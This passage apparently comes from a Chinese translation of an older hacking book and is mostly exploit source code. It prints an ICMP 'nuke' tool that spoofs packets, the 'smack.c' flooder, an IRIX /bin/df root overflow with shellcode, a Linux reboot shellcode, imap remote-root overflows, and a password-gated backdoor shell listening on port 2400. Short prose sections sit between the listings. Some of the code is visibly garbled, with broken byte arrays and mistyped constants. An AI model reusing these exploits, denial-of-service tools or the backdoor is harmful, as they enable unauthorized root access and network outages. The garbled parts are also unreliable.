register int nleft = len;
register u_short *w = addr;
register int sum = 0;
u_short answer = 0;

/*
Our algorithm is simple, using a 32-bit accumulator (sum),
we add sequential 16-bit words to it, and at the end, fold
back all the carry bits from the top 16 bits into the lower
16 bits.
*/
while( nleft > 1 ) {
sum += *w++;
nleft -= 2;
}

/* mop up an odd byte, if necessary */
if( nleft == 1 ) {
*(u_char *)(&answer) = *(u_char *)w;

sum += answer;
}

/*
 * add back carry outs from top 16 bits to low 16 bits
 */
sum = (sum >> 16) + (sum & 0xffff);   /* add hi 16 to low 16 */
sum += (sum >> 16);

/*
 * answer = ~sum;    /* add carry */
 *               /* truncate to 16 bit */
}
return (answer);

int icmp_unreach(host, uhost, port, type)
        char *host,*uhost;
        int type,port;
{
        struct sockaddr_in name;
        struct sockaddr dest, uspoof;
        struct icmp *mp;
        struct tcphdr *tp;
        struct protoent *proto;

        int i, s, rc;
        char *buf = (char *) malloc(sizeof(struct icmp)+64);
        mp = (struct icmp *) buf;
        if (resolve_host(host,&dest) <0) return(-1);
        if (resolve_host(uhost,&uspoof) <0) return(-1);
        if ((proto = getprotobyname("icmp")) == NULL) {
                fputs("unable to determine protocol number of \"icmp\n", stderr);
                return(-1);
        }
        if ((s = socket(AF_INET, SOCK_RAW, proto->p_proto)) <0 ) {
                perror("Opening raw socket");
                return(-1);
        }

        /* Assign it to a port */
        name.sin_family = AF_INET;
        name.sin_addr.s_addr = INADDR_ANY;
        name.sin_port = htons(port);

        /* Bind it to the port */
        rc = bind(s, (struct sockaddr *) & name, sizeof(name));
        if (rc == -1) {
                perror("bind");

                return(-1);
        }

        if ((proto = getprotobyname("tcp")) == NULL) {
                fputs("unable to determine protocol number of \"icmp\n", stderr);
                return(-1);
        }

		/* the following messy stuff from Adam Glass (icmpsquish.c) */
		bzero(mp, sizeof(struct icmp)+64);
		mp->icmp_type = ICMP_UNREACH;
		mp->icmp_code = type;
		mp->icmp_ip.ip_v = IPVERSION;
		mp->icmp_ip.ip_hl = 5;
		mp->icmp_ip.ip_len = htons(sizeof(struct ip)+64+20);
		mp->icmp_ip.ip_p = IPPROTO_TCP;
		mp->icmp_ip.ip_src = ((struct sockaddr_in *) &dest)->sin_addr;
		mp->icmp_ip.ip_dst = ((struct sockaddr_in *) &uspoof)->sin_addr;
		mp->icmp_ip.ip_ttl = 179;
		mp->icmp_cksum = 0;
		tp = (struct tcphdr *) ((char *) &mp->icmp_ip+sizeof(struct ip));
		tp->th_sport = 23;
		tp->th_dport = htons(port);
		tp->th_seq = htonl(0x275624F2);
		mp->icmp_cksum = htons(in_cksum(mp, sizeof(struct icmp)+64));
		if ((i= sendto(s,buf,sizeof(struct icmp)+64, 0,&dest,sizeof(dest))) <0 ) {
			perror("sending icmp packet");
			return(-1);
		}

		return(0);
	}


void main(argc,argv)
int argc;
char **argv;
{
int i, type;

if ((argc <4) || (argc >5)) {
fprintf(stderr,"usage: nuke host uhost port [unreach_type]\n");
exit(1);
}

if (argc == 4) type = DEFAULT_UNREACH;
else type = resolve_unreach_type(argv[4]);

if ((type <0) || (type > MAX_ICMP_UNREACH)) {
fputs("invalid unreachable type",stderr);
exit(1);
}

if (icmp_unreach(argv[1],argv[2],atoi(argv[3]),type) <0) exit(1);
exit(0);
}
```

# 拒绝服务攻击

**摘要**：如本章前文所述，`smack.c` 是一种拒绝服务攻击，它从自定义的随机 IP 地址发送随机 ICMP 不可达数据包。

**漏洞**：全部。

**入侵**：该拒绝服务攻击被设计为一种连接终结者，因为受害者会收到大量来自插入在 `*/ Insert` 和 `End` 部分之间的地址的数据包。

**smack.c**

```c
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/in_systm.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <sys/uio.h>
#include <unistd.h>
char conn_pack0[] = { -128,0,0,12,1,81,85,65,75,69,0,3 };
char conn_pack1[] = { -1,-1,-1,-
1,99,111,110,110,101,99,116,32,34,92,110,111,
97,105,109,92,48,92,109,115,103,92,49,92,114
,97,116,1
101,92,50,53,48,48,92,98,111,116,116,109
,99,111,1
08,111,114,92,110,111,111,112,112,114,92,111,92,97,98,92,116,111,111,112,
92,110,97,109,101,92,83,110,111,111,112,121,34,10 };
#define PS0 20+8+12
#define PS1 20+8+strlen(conn_pack1)
char *servers[] = {
*/ 在此处插入地址
"xxx.xxx.xxx.xxx:26000:0",
"xxx.xxx.xxx.xxx:26000:0",
"xxx.xxx.xxx.xxx:26000:0",
结束 */
NULL
} ;

int i, s, fl, ret;
unsigned int sp, dp;
struct in_addr src, dst;
struct sockaddr_in addr;
char pack[1024];
struct ip *iph;
struct udphdr *udph;
int read_data(void);
int parse_in(char *);
int addserv(char *, unsigned int, char);
void main(int argc, char *argv[]) 
{
iph = (struct ip *)pack;
udph = (struct udphdr *) (iph + 1);
if (argc < 2) {
printf("Usage: ./smack <target>\n", argv[0]);
exit(-1);
}
printf("Slinging Packets... \n");
src.s_addr = inet_addr(argv[1]);
if (src.s_addr == -1) {
printf("Invalid source IP: %s\n", argv[1]);
exit(-1);
}
s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
if (s == -1) {
perror("socket");
exit(-1);
}
fl = 1;
ret = setsockopt(s, IPPROTO_IP, IP_HDRINCL, &fl, sizeof(int));
if (ret == -1) {
perror("setsockopt");
exit(-1);
}
bzero((char *)&addr, sizeof(addr));
addr.sin_family = AF_INET;
read_data();
printf("UnFed.\n");
}
int parse_in(char *in)
{
int i, n, c, m, ret;
char ip[16], tmp[6], mode, tmp2;
unsigned int port;
bzero(ip, 16); bzero(tmp, 6); mode = 0; port = 0; n = 0; c = 0; m = 0;
tmp2 = 0;
for (i = 0; i < strlen(in); i++) {
if (in[i] != ' ') {
if (in[i] != ':') {
if (m == 0) {
    ip[c] = in[i];
    c++;
}
if (m == 1) {
    tmp[c] = in[i];
    c++;
}
if (m == 2) {
    tmp2 = in[i];
    break;
}
}
else {
    m++; c = 0;
}
}
}
port = (unsigned int)atoi(tmp);
mode = (tmp2 - 48);
addserv(ip, port, mode);
return ret;
}
int read_data(void)
{
    int i;
    char in[1024];
    for (i = 0; i < 32767; i++) {
        if (servers[i] == NULL)
            break;
        parse_in(servers[i]);
    }
    return 1;
}
int addserv(char *ip, unsigned int port, char mode)
{
    bzero(pack, 1024);
    dp = port;
    iph->ip_v = IPVERSION;
    iph->ip_hl = sizeof *iph >> 2;
    iph->ip_tos = 0;
    iph->ip_ttl = 40;
#ifdef BSD
    if  (mode == 0)
        iph->ip_len = PS0;
    else
        iph->ip_len = PS1;
#else
    if  (mode == 0)
        iph->ip_len = htons(PS0);
    else
        iph->ip_len = htons(PS1);
#endif
```


```c
iph->ip_p = IPPROTO_UDP;
iph->ip_src = src;
dst.s_addr = inet_addr(ip);
if (dst.s_addr == -1) {
    printf("Invalid destination IP: %s\n", ip);
}
addr.sin_port = htons(port);
addr.sin_addr.s_addr = dst.s_addr;
iph->ip_dst = dst;
#ifdef BSD
    udp->uh_dport = htons(dp);
    if (mode == 0) {
        udp->uh_ulen = htons(sizeof *udp + 12);
        udp->uh_sport = htons(rand());
    }
    else {
        udp->uh_ulen = htons(sizeof *udp + strlen(conn_pack1));
        udp->uh_sport = htons(27001);
    }
#else
    udp->dest = htons(dp);
    if (mode == 0) {
        udp->len = htons(sizeof *udp + 12);
        udp->source = htons(rand());
    }
    else {
        udp->len = htons(sizeof *udp + strlen(conn_pack1));
        udp->source = htons(27001);
    }
#endif
    if (mode == 0) {
        memcpy(udp + 1, conn_pack0, 12);
        ret = sendto(s, pack, P50, 0, (struct sockaddr *)&addr, sizeof(addr));
    }
    else {
        memcpy(udp + 1, conn_pack1, strlen(conn_pack1));
        ret = sendto(s, pack, P51, 0, (struct sockaddr *)&addr, sizeof(addr));
        if (ret == -1) {
            perror("sendto");
            exit(-1);
        }
    }
```

为了全面识别 `smack.c` 的威胁级别，有必要进一步检查其功能。本书前文曾描述过洪水攻击技术，例如臭名昭著的 smurf 攻击。简而言之，smurf 攻击是指攻击者伪造 ICMP 回显报文（带有目标地址）的源字段，并将其发送到广播地址。其结果通常是灾难性的，因为目标会从本地网段上的各种接口接收到回复。

互联网控制报文协议（ICMP）发送消息数据包，将错误和其他相关信息发回发送站或源主机。主机和基础设施设备通过此机制来通信与控制信息和错误信息有关，这些信息涉及 IP 数据报处理。ICMP 消息封装是一个双重过程：消息被封装在 IP 数据报中，而这些数据报又被封装在帧中，从而穿越互联网。基本上，ICMP 使用与数据报相同的不可靠通信方式。因此，ICMP 错误消息可能会丢失或被重复。表 10.1 列出并描述了各种 ICMP 消息类型。

对于类型 3（目标不可达），存在若干发出此类消息类型的情形，包括：当路由器或网关不知道如何到达目标时；当某个协议或应用程序未激活时；当数据报指定了不稳定的路由时；或者当路由器必须对数据报进行分片但无法做到（因为设置了 *Don’t Fragment* 标志）时。类型 3 消息的一个示例可能如下：

## 表 10.1 ICMP 消息类型

| 消息类型 | 描述 |
| :--- | :--- |
| 0 | 回显应答 |
| 3 | 目标不可达 |
| 4 | 源站抑制 |
| 5 | 路由重定向 |
| 8 | 回显请求 |
| 11 | 数据报超时 |
| 12 | 数据报参数问题 |
| 13 | 时间戳请求 |
| 14 | 时间戳应答 |
| 15 | 信息请求 |
| 16 | 信息应答 |
| 17 | 地址掩码请求 |
| 18 | 地址掩码应答 |

步骤 1：开始回显请求

```
Ping 206.0.125.81 (at the command prompt)
```

步骤 2：开始回显应答

```
Pinging 206.0.125.81 with 32 bytes of data:
Destination host unreachable.
Destination host unreachable.
Destination host unreachable.
```

广播地址被定义为将单个数据包复制并发送到网络上所有地址的系统。通过向称为广播地址的公共地址发送数据包，可以通知连接到网络的所有主机。根据被“smurf”子网的大小，受害者接收到的回复数量可能多达数千。此外，对攻击者来说，另一个好处是该网段将遭受严重的拥塞。

所谓的 smack 攻击继承了与 smurf 相似的功能，只是受害者接收到的是来自随机指定地址的响应。这些地址输入在 `$smack.c` 中的以下代码行之间：

```c
/* Insert addresses here
"xxx.xxx.xxx.xxx:26000:0",
"xxx.xxx.xxx.xxx:26000:0",
"xxx.xxx.xxx.xxx:26000:0", 
End */ 
```

对于受害者来说，结果表现为随机 ICMP 类型 3 消息的洪水，如图 10.3 所示。


**图 10.3** ICMP 类型 3 消息洪水。

## IRIX

1982 年，Silicon Graphics, Inc. (SGI) 发布了一种名为 IRIX（www.sgi.com/developers/technology/irix）的新型行业标准的 UNIX 变体。多年来，IRIX 使 SGI 能够提供多代领先的高性能计算、先进图形和可视计算平台。IRIX 是第一个支持对称多处理（SMP）以及完整的 64 位和 32 位环境的商用 UNIX 操作系统。IRIX 符合 UNIX 系统 V（第四版）以及 Open Group 的许多标准，包括 UNIX 95、2000 年问题（Y2K）和 POSIX。现在，借助用户友好的弹出式图形 GUI 窗口，IRIX 的安装、配置、管理和许可变得轻而易举。

例如，许可管理器（如图 10.4 所示）是一个图形工具，可以从系统工具箱中访问。每当用户安装、更新或删除许可时，许可管理器都会重新启动或停止本地的许可管理器守护进程，以使用户的更改生效。


**图 10.4** IRIX 许可管理器。

### 弱点

#### 拒绝服务攻击

**概要：** 通过向 *fcagent* 守护进程发送特定的 RPC 数据包，可以使 FibreVault 配置和状态监控器无法工作。

**漏洞状态：** 系统崩溃。

**易受攻击版本：** IRIX 6.4, 6.5。

**利用方式：** IRIX 的 *fcagent* 守护进程是一个基于 RPC 的守护进程，它服务于关于 FibreVault 机箱（一种非常快速的光纤磁盘安装设备）的状态或配置请求。Fcagent 容易受到远程拒绝服务（DoS）攻击，这可能导致 FibreVault 停止响应，从而使 IRIX 的磁盘阵列无法访问。通过向 fcagent 守护进程发送特定的 RPC 数据包，可以使 FibreVault 配置和状态监控器无法工作。这会导致 FibreVault 内部的所有磁盘停止响应，可能导致系统停止。

#### 根访问权限

**概要：** /bin/df（以 suid root 安装）中存在缓冲区溢出，因此黑客可以获得根访问权限。

**漏洞状态：** 未授权的根访问。

**易受攻击版本：** IRIX 5.3, 6.2 和 6.3。

**利用方式：** 使用 gcc 或 cc 编译，并在 O2 上指定 -mips3、-mips4 或 -n32。默认编译选项会导致生成引起缓存一致性问题的二进制文件。

`buffer.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

#define BUF_LENGTH 1504
#define EXTRA 700
#define OFFSET 0x200
#define IRIX_NOP 0x03e0f825 /* move $ra,$ra */

#define u_long unsigned

u_long get_sp_code[] = {
  0x03a01025, /* move $v0,$sp */
  0x03e00008, /* jr $ra */
  0x00000000, /* nop */
} ;

u_long irix_shellcode[] = {
  0x24041234, /* li $4,0x1234 */
  0x2084edcc, /* sub $4,0x1234 */
  0x0491fffe, /* bgezal $4,pc-4 */
  0x03bd302a, /* sgt $6,$sp,$sp */
  0x23e4012c, /* addi $4,$31,264+36 */
  0xa806feff, /* sb $6,-264+7($4) */
  0x2084fef8, /* sub $4,264 */
  0x20850110, /* addi $5,$4,264+8 */
  0xaca4fef8, /* sw $4,-264($5) */
  0xaca6fefc, /* sw $4,-260($5) */
  0x20a5fef8, /* sub $5, 264 */
  0x240203f3, /* li $v0,1011 */
  0x03ffffcc, /* syscall 0xffffff */
  0x2f62696e, /* "/bin" */
  0x2f7368ff, /* "/sh" */
};

char buf[BUF_LENGTH + EXTRA + 8];

void main(int argc, char **argv)
{
    char *env[] = {NULL};
    u_long targ_addr, stack;
    u_long *long_p;
    int i, code_length = strlen((char *)irix_shellcode)+1;
    u_long (*get_sp)(void) = (u_long (*)(void))get_sp_code;

    stack = get_sp();

    long_p=(u_long *) buf;
    targ_addr = stack + OFFSET;

    if (argc > 1) targ_addr += atoi(argv[1]) * 4;

    while ((targ_addr & 0xff000000) == 0 ||
           (targ_addr & 0x00ff0000) == 0 ||
           (targ_addr & 0x0000ff00) == 0 ||
           (targ_addr & 0x000000ff) == 0)
        targ_addr += 4;

    for (i = 0; i < (BUF_LENGTH - code_length) / sizeof(u_long); i++)
        *long_p++ = IRIX_NOP;

    for (i = 0; i < code_length/sizeof(u_long); i++)
        *long_p++ = irix_shellcode[i];

    for (i = 0; i < EXTRA / sizeof(u_long); i++)
        *long_p++ = (targ_addr << 16) | (targ_addr >> 16);

    *long_p = 0;

    printf("stack = 0x%x, targ_addr = 0x%x\n", stack, targ_addr);

    execle("/bin/d\xe9", "d\xe9", &buf[3], 0, env);
    perror("execl failed");
}
```

## Linux

最初由 Linus Torvalds 编写，并在 GNU 通用公共许可证下开发。Linux 是一个获奖的 UNIX 操作系统，专为 Intel、Alpha、Sun、Motorola、PowerPC 而设计，


PowerMac、ARM、MIPS、富士通计算机系统以及更多。Linux 被评为当今市场上最流行的操作系统之一。此外，Linux 还包括真正的多任务处理、虚拟内存、共享库、内存管理、TCP/IP 网络以及更多功能。

目前，Linux 被许多供应商定制、打包和分发，包括：RedHat Linux (www.redhat.com)、Slackware (www.slackware.org)、Debian (www.debian.org)、TurboLinux (www.turbolinux.com)、Mandrake (www.linux-mandrake.com)、SuSE (www.suse.com)、Trinux (www.trinux.org)、MklLinux (www.mklinx.org)、LinuxPPC (www.linuxppc.org)、SGI Linux (http://oss.sgi.com/projects/sgiunix11)、Caldera OpenLinux (www.caldera.com)、Corel Linux (http://linux.corel.com) 和 Stampede Linux (www.stampede.org)。

对本次讨论而言，也许最重要的是 Linux 源代码向公众免费开放；因此，它催生了广泛的专有程序开发。这种大规模增长的缺点在于存在大量不安全因素，其中许多具有破坏性。事实上，仅针对 Linux 漏洞就可以写成一整本书；然而，篇幅限制使得这里只能描述一些最常见的安全漏洞。请注意；普通的 TigerBox 基础架构始于 Linux 操作系统。

## 重新启动

**概述：** 一种几乎可以重启任何 Linux x86 机器的远程攻击。

**攻击状态：** 系统停机/重启。

**漏洞：** 所有版本。

**入侵文件：** Reboot.asm。

### Reboot.asm

```asm
jmp rootshell
coded_by_bmv:
    popl %edi
    call rebo0t
rootshell:
    call coded_by_bmv
rebo0t:
    xorl %eax,%eax
    movb $0x24,%eax
    int $0x80
    xorl %eax,%eax
    movb $0x58,%eax
    movl $0xfeeldead,%ebx
    movl $672274793,%ecx
    movl $0x1234567,%edx
    int $0x80
    xorl %eax,%eax
    movb $0x01,%al
    int $0x80
```

```c
char shellcode[]=
"\xeb\x06\x5f\xe8\x05\x00\x00\x00\xe8\xf5\xff"
"\xff\xff\xf31\xc0\xb0\x24\xcd\x80\x31\xc0\xb0"
"\x58\xbb\xad\xde\xe1\xfe\xb9\x69\x19\x12\x28"
"\xba\x67\x45\x23\x01\xcd\x80\x31\xc0\xb0\x01"
"\xcd\x80\x89\xec\x5d\xc3";

void main()
{
int *ret;
ret = (int *)&ret + 2;
(*ret) = (int)shellcode;
}
```

## 远程 Root 攻击

**概述：** 一种暴力破解的远程 root 攻击，几乎适用于任何 Linux 机器。

**攻击状态：** 未授权的 root 访问权限。

**漏洞：** 所有版本。

**入侵文件：** linroot.c。

### linroot.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <limits.h>
#include <string.h>

#define BUFLEN 2048
#define NOP 0x90

char shell[] =
```

```asm
/*
jmp 56
popl %esi
movl    %esi,%ebx
movl    %ebx,%eax

addb    $0x20,0x1(%esi)
addb    $0x20,0x2(%esi)
addb    $0x20,0x3(%esi)
addb    $0x20,0x5(%esi)
addb    $0x20,0x6(%esi)

movl    %esi,%edi
addl    $0x7,%edi
xorl    %eax,%eax
stosb   %al,%es:(%edi)

movl %edi,%ecx
movl %esi,%eax
stosl %eax,%es:(%edi)
movl %edi,%edx
xorl %eax,%eax
stosl %eax,%es:(%edi)
movb $0x8,%al
addd $0x3,%al
int $0x80
xorl %ebx,%ebx
movl %ebx,%eax
incl %eax
int $0x80
call -61
.string "/BIN/SH"
.byte 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff ;markup
*/
```

```c
"\xeb\x38\x5e\x89\xf3\x89\xd8\x80"
"\x46\x01\x20\x80\x46\x02\x20\x80"
"\x46\x03\x20\x80\x46\x05\x20\x80"
"\x46\x06\x20\x89\xf7\xc7\x07"

"\x31\xc0\xaa\x89\xf9\x89\xf0\xab"
"\x89\xfa\x31\xc0\xab\xb0\x08\x04"
"\x03\xcd\x80\x31\xd8\x89\xd8\x40"
"\xcd\x80\x8e\xc3\xff\xff\xff\x2f"
"\x42\x49\x4e\x2f\x53\x48\x00"

void
main (int argc, char *argv[]) {
  char buf[BUFLEN];
  int offset=0,nop,i;
  unsigned long esp;

  fprintf(stderr,"usage: %s <offset>\n", argv[0]);

  nop = 403;
  esp = 0xbffff520;
  if(argc>1)
    offset = atoi(argv[1]);

  memset(buf, NOP, BUFLEN);
  memcpy(buf+(long)nop, shell, strlen(shell));

  for (i = 512; i < BUFLEN - 4; i += 4)
    *(int *) &buf[i] = esp + (long) offset;

  printf("* AUTHENTICATE (%d) \r\n", BUFLEN);
  for (i = 0; i < BUFLEN; i++)
    putchar(buf[i]);

printf("\r\n");
return;
}
```

## 远程 Root 攻击

**概述：** 另一种 *imap* 远程 root 攻击，几乎适用于任何 Linux 机器。

**攻击状态：** 未授权的 root 访问权限。

**漏洞：** 所有版本。

**入侵文件：** *imaprev.c*。

### Imaprev.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <limits.h>
#include <string.h>

#define BUFLEN  (2*1024)
#define NOP 0x90

char shell[] =
"\xeb\x34\x5e\x8d\x1e\x89\x5e\x0b\x31\x2d\x89\x56\x07"
"\x89\x56\x0f\x89\x56\x14\x88\x56\x19\x31\xc0\xb0\xf7"
"\x20\x46\x01\x20\x46\x02\x20\x46\x03\x20\x46\x05\x20\x46\x06"
"\xb0\x3b\x8d\x4e\x0b\x89\xca\x52\x51\x53\x50\xeb\x18\x8e\xc0\x7f\xff\x"
"\x2f\xe2\xe9\xee\x2f\xf3\xe8\x01\x01\x01\x01\x02\x02\x02\x02"
"\x03\x03\x03\x03\x9a\x04\x04\x04\x04\x07\x04";

char buf[BUFLEN];
unsigned long int nop, esp;
long int offset;

void
main (int argc, char *argv[])
{
       int i;

       nop = 403; offset = 100;
       if (argc > 2) nop = atoi(argv[2]);
       if (argc > 1) offset = atoi(argv[1]);
       esp = 0xbffff501;

       memset (buf, NOP, BUFLEN);
       memcpy (buf+nop, shell, strlen(shell));
       for (i = nop+strlen(shell); i < BUFLEN - 4; i += 4)
               *((int *) &buf[i]) = esp + offset;

		printf("* AUTHENTICATE ( %d) \r\n", BUFLEN);
		for (i = 0; i < BUFLEN; i++)
			putchar(buf[i]);
		printf("\r\n");
	return;
}
```

## 特洛伊木马远程 Shell

**概述：** 一种常见的特洛伊木马式远程 shell 攻击，几乎适用于任何 Linux 机器。

**攻击状态：** 未授权的 shell 访问权限。

**漏洞：** 所有版本。

**入侵文件：** troshell.c。

### troshell.c

```c
#include <Inc Mods>

#define    QLEN         5
#define    MY_PASSWORD    "wank"
#define    SERV_TCP_PORT  2400    /* 我将在此端口监听连接 */

char sbuf[2048], cbuf[2048];
extern int errno;
extern char *sys_errlist[];
void reaper();
int main();
void telcli();

char BANNER1[] = "\r\n\r\nSUNOS UNIX (";
     BANNER2[] = ")\r\n\r\0x\r\n\0";

#define  OPT_NO           0    /* 不会执行此选项 */
#define  OPT_YES          1    /* 会执行此选项 */
#define  OPT_YES_BUT_ALWAYS_LOOK  2
#define  OPT_NO_BUT_ALWAYS_LOOK  3
char  hisopts[256];
char  myopts[256];

char  doopt[] = {  IAC, DO,   '%', 'c', 0 };
char  dont[]  = {  IAC, DONT, '%', 'c', 0 };
char  will[]  = {  IAC, WILL, '%', 'c', 0 };
char  wont[]  = {  IAC, WONT, '%', 'c', 0 };

/*
 * I/O 数据缓冲区、指针和计数器。
 */
char  ptyiub[BUFSIZE], *ptyip = ptyiub;

char ptyobuf[BUFSIZ], *pfrontp = ptyobuf, *pbackp = ptyobuf;

char netibuf[BUFSIZ], *netip = netibuf;
#define NIACCUM(c) { *netip++ = c; \
 ncc++; \
}

char netobuf[BUFSIZ], *nfrontp = netobuf, *nbackp = netobuf;
char *neturg = 0; /* 紧急数据最后一个 bye 之后的位置 */
/* 远程系统似乎不是旧版的 4.2 */
int not42 = 1;

/* 子选项缓冲区 */
char subbuffer[100], *subpointer= subbuffer, *subend= subbuffer;
#define SB_CLEAR() subpointer = subbuffer;

#define SB_TERM() { subend = subpointer; SB_CLEAR(); }
#define SB_ACCUM(c) if (subpointer < (subbuffer+sizeof subbuffer)
) { \
 *subpointer++ = (c); \
}
#define SB_GET() ((*subpointer++)&0xff)
#define SB_EOF() (subpointer >= subend)

int pcc, ncc;

int pty, net;
int inter;
extern char **environ;
extern int errno;
char *line;
int SYNCHing = 0; /* 我们处于 TELNET SYNCH 模式 */
/*
 * 以下是一些时钟变量，用于决定如何解释各种变量之间的关系。
 */
struct {
 int system, /* 当前时间 */
 echotoggle, /* 用户最后一次输入回显字符的时间 */
 modenegotiated, /* 最后一次运行模式协商的时间 */
 didnetreceive, /* 最后一次从网络读取数据的时间 */
 ttypeopt, /* 接收 ttype will/won't 的时间 */
 ttypesubopt, /* 接收 ttype subopt 的时间 */
 getterminal, /* 开始获取终端信息的时间 */
 gotDM; /* 最后一次看到数据标记的时间 */
} clocks;

#define settimer(x) (clocks.x = ++clocks.system)
#define sequenceIs(x,y) (clocks.x < clocks.y)

char *terminaltype = 0;
char *envinit[2];
```


## C 代码：Telnet 守护进程（telnetd）实现

### 清理函数

```c
int cleanup();

/*
 * ttloop
 *
 * 一个小型子程序，用于刷新网络输出缓冲区，从网络获取数据，
 * 并将其通过 telnet 状态机处理。
 * 如果 pty 输入缓冲区过于拥挤，我们也通过丢弃其数据来刷新它。
 */

void
 ttloop()
 {
 if (nfrontp-nbackp) {
 netflush();
 }
 ncc = read(net, netibuf, sizeof netibuf);
 if (ncc < 0) {
 exit(1);
 } else if (ncc == 0) {
 exit(1);
 }

 netip = netibuf;
 telrcv(); /* 状态机 */
 if (ncc > 0) {
 pfrontp = pbackp = ptyobuf;
 telrcv();
 }
 }
```

### 终端类型协商

```c
/*
 * getterminaltype
 *
 * 要求对端发送其终端类型。
 * 输出为填充了终端类型的变量。
 */

void
 getterminaltype()
 {
 static char sbuf[] = { IAC, DO, TELOPT_TTYPE };

 settimer(getterminal);
 bcopy(sbuf, nfrontp, sizeof sbuf);
 nfrontp += sizeof sbuf;
 hisopts[TELOPT_TTYPE] = OPT_YES_BUT_ALWAYS_LOOK;
 while (sequenceIs(ttypeopt, getterminal)) {
 ttloop();
 }
 if (hisopts[TELOPT_TTYPE] == OPT_YES)   {
    static char sdbuf[] = {   IAC, SB, TELOPT_TTYPE, TELQUAL_SEND, IAC, SE } ;
    bcopy(sdbuf, nfrontp, sizeof sdbuf);
    nfrontp += sizeof sdbuf;
    while (sequenceIs(ttysubopt, getterminal)) {
        ttloop();
    }
 }
 }
```

### 主函数

```c
int main(argc, argv)
int argc;
char *argv[];
{
    int srv_fd, rem_fd, rem_len, opt = 1;
    struct sockaddr_in rem_addr, srv_addr;
#if !defined(SVR4) && !defined(POSIX) && !defined(linux) &&
!defined(__386BSD__) && !defined(hpux)
    union wait status;
#else
    int     status;
#endif /* !defined(SVR4) */

    bzero((char *) &rem_addr, sizeof(rem_addr));
    bzero((char *) &srv_addr, sizeof(srv_addr));
    srv_addr.sin_family = AF_INET;
    srv_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    srv_addr.sin_port = htons(SERV_TCP_PORT);
    srv_fd = socket(PF_INET, SOCK_STREAM, 0);
    if (bind(srv_fd, (struct sockaddr *) &srv_addr, sizeof(srv_addr)) == -1) {
        perror("bind");
        exit(-1);
    }

    listen(srv_fd, QLEN);
    close(0); close(1); close(2);
#ifdef TIOCNOTTY
    if ((rem_fd = open("/dev/tty", O_RDWR)) >= 0) {
        ioctl(rem_fd, TIOCNOTTY, (char *)0);
        close(rem_fd);
    }
#endif
    if (fork()) exit(0);
    while (1) {
        rem_len = sizeof(rem_addr);
        rem_fd=accept(srv_fd, (struct sockaddr *) &rem_addr, &rem_len);
        if (rem_fd < 0) {
            if (errno == EINTR) continue;
            exit(-1);
        }
        switch(fork()) {
            case 0:
                /* 子进程 */
                close(srv_fd);
                /* 关闭原始套接字 */
                telcli(rem_fd);
                /* 处理请求 */
                close(rem_fd);
                exit(0);
                break;
            default:
                close(rem_fd);
                /* 父进程 */
                if (fork()) exit(0);    /* 让 init 处理子进程 */
                break;
            case -1:
                fprintf(stderr, "\nrfork: %s\n\r", sys_errlist[errno]);
                break;
        }
    }
}
```

### 客户端处理

```c
void telcli(source)
int source;
{
    int dest;
    int found;
    struct sockaddr_in sa;
    struct hostent *hp;
    struct servent *sp;
    char gethost[100];
    char getport[100];
    char string[100];

    bzero(gethost, 100);
    sprintf(string, "Password: ");
    write(source, string, strlen(string));
    read(source, gethost, 100);
    gethost[strlen(gethost)-1] = '\0'; /* 注意：截断 \r\n */
    if (strcmp(gethost, MY_PASSWORD) != 0) {
        sprintf(string, "Wrong password, got %s.\r\n", gethost);
        write(source, string, strlen(string));
        close(source);
        exit(0);
    }
    do_it(source);
}

/*
 * 获取 pty，扫描输入行。
 */
do_it(f)
    int f;
{
int i, p, t, tt;
struct sgtyb b;
int on = 1;
int zero;
char *cp;
char line[20];

setsockopt(0, SOL_SOCKET, SO_KEEPALIVE, &on, sizeof (on));
for (cp = "pqrstuvwxyzPQRST"; *cp; cp++) {
struct stat stb;

line = "/dev/ptyXX";

line[strlen("/dev/pty")] = *cp;
line[strlen("/dev/pty")] = '0';
if (stat(line, &stb) < 0)
break;
for (i = 0; i < 16; i++) {
line[strlen("/dev/pty")] = "0123456789abcdef"[i];
p = open(line, O_RDWR | O_NOCTTY);
if (p > 0)
goto gotpty;
}
}
fatal(f, "All network ports in use");
/*NOTREACHED*/
gotpty:
dup2(f, 0);
line[strlen("/dev/")] = 't';
t = open("/dev/tty", O_RDWR);
if (t >= 0) {
ioctl(t, TIOCNOTTY, 0);
close(t);
}
t = open(line, O_RDWR | O_NOCTTY);
if (t < 0)
fatalperror(f, line, errno);
ioctl(t, TIOCGETP, &b);
b.sg_flags = CRMOD|XTABS|ANYP;

/* XXX - ispeed 和 ospeed 必须是非零值 */
b.sg_ispeed = B38400;
b.sg_ospeed = B38400;

ioctl(t, TIOCSETp, &b);
ioctl(t, TIOCLSET, &zero);
ioctl(p, TIOCGETP, &b);
b.sg_flags &= ~ECHO;
ioctl(p, TIOCSETp, &b);
net = f;
pty = p;

/*
* 获取终端类型。
*/
getterminaltype();

if ((i = fork()) < 0)
	fatalperror(f, "fork", errno);
if (i)
	telnet(f, p);
/*
* 子进程需要成为会话领导者
*
* 并且将 pty 作为其控制终端。
*/
(void) setpgid(0, 0);	/* setsid */
tt = open(line, O_RDWR);
if (tt < 0)
	fatalperror(f, line, errno);
(void) close(f);
(void) close(p);
(void) close(t);
if (tt != 0)
	(void) dup2(tt, 0);
if (tt != 1)
	(void) dup2(tt, 1);
if (tt != 2)
	(void) dup2(tt, 2);
if (tt > 2)
	close(tt);
envinit[0] = terminaltype;
envinit[1] = 0;
environ = envinit;
exec1("/bin/csh", "csh", 0);
fatalperror(f, "/bin/csh", errno);
/*NOTREACHED*/
}
```

### 错误处理函数

```c
fatal(f, msg)
int f;
char *msg;
{
char buf[BUFSIZ];

(void) sprintf(buf, "telnetd: %s.\r\n", msg);
(void) write(f, buf, strlen(buf));
exit(1);
}

fatalperror(f, msg, errno)
int f;
char *msg;
int errno;
{
char buf[BUFSIZ];
extern char *sys_errlist[];
(void) sprintf(buf, "%s: %s\r\n", msg, sys_errlist[errno]);
fatal(f, buf);
}
```

### 带外数据检查

```c
/*
 * 检查描述符上是否存在带外数据。
 */
stilloob(s)
